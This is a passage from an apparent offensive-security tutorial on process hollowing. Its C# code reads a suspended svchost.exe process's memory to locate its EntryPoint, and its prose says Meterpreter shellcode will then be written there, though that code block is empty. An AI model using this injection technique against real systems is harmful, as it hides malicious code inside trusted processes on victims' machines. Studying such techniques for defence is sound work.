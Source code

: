 With the PEB address of the executable located, the code then uses the **ReadProcessMemory** API function to parse the PEB of the remote process and perform some complicated math to obtain the full memory address of the EntryPoint:

```csharp
            byte[] addrBuf = new byte[IntPtr.Size]; //Following the DllImport, we can call ReadProcessMemory by specifying an 8-byte buffer that is then converted to a 64bit integer through the BitConverter.ToInt648 method and then casted to a pointer using (IntPtr).
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            //It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
            //The following step is to parse the PE header to locate the EntryPoint. This is performed by calling ReadProcessMemory again with a buffer size of 0x200 bytes 
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
            //To parse the PE header, we must read the content at offset 0x3C and use that as a second offset when added to 0x28
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            //The offset from the base address of svchost.exe to the EntryPoint is also called the relative virtual address (RVA). We must add it to the image base to obtain the full memory address of the EntryPoint.
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase); 
```

Yes, I know that skips over a lot, but if I didn’t, this post would be longer than a penguin’s debate on the merits of flying.

So, if you really want to understand how this code obtains the absolute EntryPoint, read the blog post I linked above.

Anyways, after we have obtained the absolute EntryPoint, we can use **WriteProcessMemory** to overwrite the existing code with our Meterpreter shellcode and call **ResumeThread** to continue the execution of svchost.exe:

```csharp
```